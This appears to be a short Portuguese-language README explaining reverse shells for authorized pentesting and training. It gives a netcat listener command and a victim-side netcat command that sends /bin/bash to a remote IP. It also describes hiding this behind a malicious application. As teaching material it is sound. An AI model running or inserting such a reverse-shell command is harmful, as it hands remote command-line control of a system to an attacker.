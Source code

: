 
---

Uma **reverse shell** é uma técnica comumente utilizada para obter acesso remoto a um sistema alvo. No entanto, o uso dessa técnica deve ser feito exclusivamente em ambientes autorizados, como para **testes de segurança (pentest)**, **auditorias** ou **treinamento em cibersegurança**. Qualquer uso indevido ou não autorizado pode ser **ilegal**.

### Funcionamento básico

Na reverse shell:

1. A máquina alvo (vítima) inicia a conexão de volta para a máquina atacante (ouvinte).
2. O atacante escuta na porta configurada, aguardando a conexão da vítima.

Isso é útil em ambientes onde a máquina alvo está atrás de um firewall ou NAT, dificultando o acesso direto.

Ex:

Atacante:
O atacante esta abrindo uma porta para que a vitima se conecte
```bash
nc -vnlp 5050
```

Vitima:
Apos a vitima executar uma aplicação mal intencionada, o script que esta rodando por trás da aplicação ira se conectar a maquina da vitima passando a porta que esta aberta e a shell da maquina da vitima, assim dando controle a linhas de comando para o atacante.

```bash
nc -vn 192.168.0.1 5050 -e /bin/bash
```